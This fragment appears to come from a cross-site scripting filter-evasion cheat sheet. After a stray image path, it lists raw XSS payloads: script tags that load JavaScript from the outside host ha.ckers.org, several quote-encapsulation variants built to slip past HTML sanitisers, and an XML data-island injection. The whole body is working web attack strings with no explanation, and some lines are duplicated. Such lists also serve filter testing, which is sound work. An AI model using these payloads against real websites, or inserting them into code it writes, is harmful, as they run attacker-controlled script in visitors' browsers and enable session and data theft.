 ```<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
# Locally hosted XML with embedded JavaScript that is generated using an XML data island
<XML SRC="xsstest.xml" ID=I></XML><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

# XSS using HTML quote encapsulatio
<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>


